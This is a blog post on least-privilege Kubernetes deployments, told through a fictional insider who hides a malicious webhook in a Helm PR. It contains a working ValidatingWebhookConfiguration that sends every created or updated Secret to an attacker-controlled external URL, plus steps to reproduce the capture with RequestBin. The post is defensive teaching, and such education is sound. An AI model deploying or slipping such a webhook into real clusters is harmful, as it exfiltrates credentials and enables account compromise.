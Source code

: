 ```yaml
---
title: "Least Privilege Deployments in Kubernetes" # Title of the blog post.
date: 2023-02-24T16:19:09-06:00 # Date of post creation.
description: "Least privilege deployment in Kubernetes" # Description used for search engine.
featured: true # Sets if post is a featured post, making appear on the home page side bar.
draft: false # Sets whether to render this page. Draft of true will not be rendered.
toc: false # Controls if a table of contents should be generated for first-level links automatically.
# menu: main
usePageBundles: true # Set to true to group assets like images in the same folder as this post.
# featureImage: "/images/path/file.jpg" # Sets featured image on blog post.
# featureImageAlt: 'Description of image' # Alternative text for featured image.
# featureImageCap: 'This is the featured image.' # Caption (optional).
# thumbnail: "/images/path/thumbnail.png" # Sets thumbnail image appearing inside card on homepage.
# shareImage: "/images/path/share.png" # Designate a separate image for social media sharing.
codeMaxLines: 20 # Override global value for how many lines within a code block before auto-collapsing.
codeLineNumbers: true # Override global value for showing of line numbers within code block.
figurePositionShow: true # Override global value for showing the figure label.
categories:
  - Technology
tags:
  - kubernetes
  - security
  - supply chain
  - least privilege
# comment: false # Disable comment if false.
---
```


Many things in security tend to come down to the same few concepts, one of the most important being to limit the surface area of attack. The [principle of least privilege](https://en.wikipedia.org/wiki/Principle_of_least_privilege) is the idea that we should design our operations to use only the minimal set of permissions required to accomplish the task. When deploying applications in Kubernetes, this usually means making use of multiple personas for the deployment of different resources. (This concept applies to running applications as well, but that's a discussion for a different time.)

Many production Kubernetes clusters, even if used to host a single app, require deploying prequisites that may need to create cluster-level resources, such as [`CustomResourceDefinitions`](https://kubernetes.io/docs/tasks/extend-kubernetes/custom-resources/custom-resource-definitions/) or perhaps even `ClusterRole` and `ClusterRoleBinding` objects. These types of resources typically require a cluster administrator (or RBAC-equivalent) account to deploy, because they have an effect broadly across the entire cluster. For convenience, many teams may be tempted to use this elevated permission set to deploy *everything* to the cluster. After all, who wants to deal with two (or more!) service principals in their pipelines? That's just too much work, and we've got a deadline to meet!

The danger here is that the more things you deploy, the less certainty you'll generally have of the content. Let's consider an example.

The dev team at the plastic container retailer Wiza-Bins[^1] has decided to run their next-gen, micro-service-based shopping platform atop Kubernetes. As part of the deployment, they've decided that like most modern Kubernetes devs, they'll make use of the [MySql operator](https://github.com/mysql/mysql-operator/tree/trunk/helm/mysql-operator) for Kubernetes, and deploy it via Helm. I'm as much a fan of operators as anyone else, but they generally rely on the ability to deploy CRDs and other cluster-level resources to provide their services, so you should always review these deployments to make sure they meet your security and compliance demands before deploying them to your cluster.

The Wiza-Bins team, being the devops-savvy group they are, decide to build a pipeline in their favorite CI/CD tool. They know they need to give the service principal cluster level permission to deploy the CRDs and cluster objects required by the MySQL operator chart, so they configure that, add their `helm upgrade -i ...` task to the pipeline and are off to the races. Success! They've now got a way to easily manage MySQL database instances within their cluster. Because the operator doesn't change very often, this pipeline doesn't run very much. Now, it's time to create the pipeline to deploy their application.

Frank, the lead devops engineer at Wiza-Bins, figures that there's no sense in creating another service account to deploy the application. After all, they've already configured the first one, and it's got all the access (and more!) that it needs to get their application deployed. Why spend the time configuring another? So he creates a second pipeline to deploy their app. Because their app consists of a few dozen microservices, the Helm charts they use for it consist of quite a few files. There are even a few other Helm charts that they use from other sources to deploy some additional dependencies

There is ***So. Much. YAML.***
![YAML for days!](lot-of-yaml.jpg)

Undeterred, Frank creates all the pipeline steps, `kubectl apply -f`-ing and `helm upgrade -i`-ing all over the place, copying examples from StackOverflow and other places on the web, until he's finally got the application successfully deployed. Hurrah! The new shopping platform is a success. Profits are up 250%. The team revels in their accomplishment. But now there's more work to do. Features to develop, reports to create; a developer's job is never done. So the team hires a few more engineers to tackle the work, including a particularly promising engineer named Scott who's got 10 years of production Kubernetes experience under his belt.[^2] These engineers are given access to the code & repository for just the application deploy, since that's where their job focus is.

Scott, as it turns out, isn't the most trustworthy guy around. But he *does* know a thing or two about Kubernetes that his less erudite teammates do. So while he's creating a pull request to handle some configuration changes in the various Helm charts for the application, he decides to slip the following file into the mix.

```yaml
apiVersion: admissionregistration.k8s.io/v1
kind: ValidatingWebhookConfiguration
metadata:
  name: security-policy-validator
webhooks:
  - name: wizabin.validateya.ml
    failurePolicy: Ignore
    timeoutSeconds: 1
    admissionReviewVersions: ["v1", "v1beta1"]
    sideEffects: None
    rules:
    - operations: ["CREATE","UPDATE"]
      apiGroups: ["*"]
      apiVersions: ["*"]
      resources: ["secrets"]
    clientConfig:
      url: "https://wizabin.validateya.ml/validator"
```

Frank and Ben (another engineer on the team) review Scott's PR. They question the `ValidatingWebhookConfiguration` resource, having only seen things like `Deployment` and `Service` resources and the like. But Scott's the Kubernetes *expert*, and to a novice, anything labeled as "security" must be a good thing, right?[^3] So the PR gets approved, and later deployed to production.

A few weeks later, Scott gets an offer from another company, and leaves the team. Jim, the project manager, decides to throw a farewell party as a thanks for all Scott has contributed to the team. They'd never have made it to version 2.0 of the platform without his expertise in Kubernetes. Cake is eaten, handshakes and high-fives are exchanged, and Scott drives off at the end of the day.

...you probably see where this is heading.

A few weeks later, the team notices that some of their payment processor accounts have some discrepancies. Customers are calling in with complaints. Some of their SaaS based accounts seem to be compromised. In short, *everything* has gone wrong. So what happened?

As it turns out, Scott was the owner of the `validateya.ml` domain in the `ValidatingWebhookConfiguration`, and that resource has the effect of sending the entire contents of any `Secret` object created or updated in the cluster to the `https://wizabin.validateya.ml/validator` URL. All he had to do was sit back and wait for the secrets to all manner of resources came rolling in, at which point he could compromise services at his leisure, wreaking all sorts of havoc against his former employer.

`ValidatingWebhookConfiguration` resources are *not intrinsically unsafe*. Most often, they're used to validate policy against incoming resources, and are usually deployed as resources inside the cluster rather than as external resources like we've shown here. [OPA Gatekeeper](https://open-policy-agent.github.io/gatekeeper/website/docs/) and [Kyverno](https://kyverno.io/) are two such tools for doing this sort of policy enforcement. The danger of insider threat is not the only way such a vulnerability could manifest either. Are you certain that you can trust any externally sourced applications or Helm charts that you deploy alongside your app? (Think databases, logging utilities, service meshes, etc.) What if they got unknowingly compromised? Supply chain attacks are certainly a risk here, which is why I'll reiterate my stance that "the more things you deploy, the less certainty you'll generally have about the content", especially when using accounts with elevated privileges to do the deployments.

If you'd like to try something similar for yourself[^4], head on over to [PipeDream's RequestBin](https://pipedream.com/requestbin) to create a unique URL that you can use to view incoming requests via your browser. Then change lines 6 and 17 in the YAML above to include that custom URL. Once done, use the following command to deploy a sample secret to your cluster (or create your own).

```bash
kubectl create secret generic db-user-pass \
    --from-literal=username=admin \
    --from-literal=password='S!B\*d$zDsb='
```

You should be able to see the request come in, which will look something like this:

![RequestBin UI showing Kubernetes secret in base64](request-bin-secret.png)

Decode the two `data` objects from base64 to roundtrip the contents of the secret.

```bash
echo 'YWRtaW4=' | base64 -d  # returns admin
echo 'UyFCXCpkJHpEc2I9' | base64 -d  # returns S!B\*d$zDsb=
```

The takeaway from this story should be this: be certain to critically review *anything* that gets deployed using a cluster admin level account. Limit the resources that you deploy using it, and use less privileged accounts with just enough RBAC privileges assigned to get the job done for the rest of your deployments. There are other mitigations that can help these scenarios as well, most notably restricting network egress from the cluster using a firewall or other network security policy. We'll dive more into that setup in a future post.

Until then, I'll invite you to view the presentation from [Ian Coldwater](https://twitter.com/IanColdwater) and [Brad Geesaman](https://twitter.com/bradgeesaman) that inspired this post, which has demos of the above exploit and more.
{{< youtube JBbVTmrZ45E >}}

[^1]: totally fake company name generated via [this tool](https://fauxid.com/tools/fake-company-generator?country=united-states&count=10)
[^2]: perceptive readers will have already done the math here. [Kubernetes 1.0 was released on July 21, 2015...](https://en.wikipedia.org/wiki/Kubernetes#History)
[^3]: another fun naming strategy might be to call this resource the `secrets-disaster-recovery-plan`
[^4]: please don't do this on a production cluster! 😊
